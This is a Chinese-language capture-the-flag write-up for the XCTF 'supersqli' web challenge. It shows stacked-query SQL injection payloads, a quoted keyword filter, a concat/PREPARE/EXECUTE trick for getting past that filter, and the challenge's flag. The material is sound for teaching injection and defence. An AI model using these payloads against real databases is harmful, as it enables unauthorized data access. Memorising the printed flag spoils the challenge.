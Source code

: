 # supersqli

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=279780af-0dcb-4a1c-b8d3-fd0410115df9_2)

sql注入还是要看知识面啊，因为你永远都不知道会遇到什么数据库，要用什么语句。

场景就是一个输入框，看来这就是我们的注入点了。

![inject](https://github.com/C0nstellati0n/NoobCTF/blob/main/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/images/inject.png)

直接输入1'可以得到报错内容。(基础的sql注入一般都是输入引号进行测试)

- error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1

MariaDB又是什么数据库啊？

- ### MariaDB
- > MariaDB数据库管理系统是 MySQL 的一个分支，主要由开源社区在维护，采用GPL授权许可。MariaDB的目的是完全兼容MySQL，包括API和命令行，使之能轻松成为MySQL的替代品。 在MariaDB与MySQL几乎一模一样，它们有相同的命令、界面，以及库与API。

哦，跟MySQL差不多。那就把这个当成一个MySQL注入题得了。既然有报错，那就试一下联合注入(union select)。

- return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);

没那么简单，这里把select过滤了。且有/i标志，意味着全局匹配且大小写不敏感。看来得考虑别的。既然我们不能在一条语句里注入，多来几条怎么样？这种方法就叫堆叠注入。主要原理就是MySQL数据库中用 ; 来表示一条语句的结束，所以我们也可以在payload中添加 ; 来一次注入多条语句。

- ?inject=1';show databases; #

我们要往inject传参数，payload中用'闭合前面的语句，;拼接下一条语句，show database在mysql中可以列出服务器上所有的数据库。#注释后面的内容。

![dataBases](https://github.com/C0nstellati0n/NoobCTF/blob/main/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/images/showDatabases.png)

既然这个挑战叫supersqli，那就看看supersqli数据库里有啥。我们现在应该就在supersqli数据库里，所以可以直接使用show tables来列出当前数据库中所有的表。

- ?inject=1';show tables; #

![tables](https://github.com/C0nstellati0n/NoobCTF/blob/main/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/images/showTables.png)

有两个表，都看看里面有啥。show columnns可以从显示指定表（用from指定）中的字段，表名要用反引号\``扩起来，因为当字符串为表名进行操作时要加反引号

- ?inject=1';show columns from \`words`; #

![words](https://github.com/C0nstellati0n/NoobCTF/blob/main/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/images/words.png)

- ?inject=1';show columns from \`1919810931114514`; #

![flag](https://github.com/C0nstellati0n/NoobCTF/blob/main/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/images/flagTable.png)

可以看见flag在1919810931114514这个表中。问题是我们的select不能用，该怎么看这个字段中的内容呢？我们可以利用预编译来构造一条查询语句。

- ### 预编译
- > 执行一条sql查询语句需要经过三个步骤：（1）词法和语义解析    （2）优化sql语句，制定执行计划  （3）执行并返回结果
- > 跟编程一样，有些常用的语句可能会被用很多次。但是如果每次用的时候都来这三步，语句量大的时候效率就不行了。一般常用的语句每次只会有查询的值有细微差别，所以我们可以将这类语句中查询的值用占位符替代，将sql语句模板化或者说参数化，就可以一次编译、多次运行，省去了解析优化等过程。

我们主要会用到三条命令

- ### set
- > 可以理解为设置变量或准备即将预编译的语句。
- > 语法：set @名称=值
- ### prepare
- > 预编译一条sql语句。
- > 语法：prepare 语句名 from 语句
- ### execute
- > 执行预编译语句
- > 语法：execute 语句名 \[变量]\(可选)

那么我们可以准备下面这个payload：

- ?inject=1';set @sql=concat('s','elect * from \`1919810931114514`');PREPARE pre FROM @sql;EXECUTE pre; #
- > 不能在直接拼接select，因为这样就是字符串而不是可以执行的语句了。

这条语句意为：set准备需要的select语句（用concat拼接字符串绕过过滤，prepare预编译语句，execute执行语句。

- ### Flag
- > flag{c168d583ed0d4d7196967b28cbd0b5e9}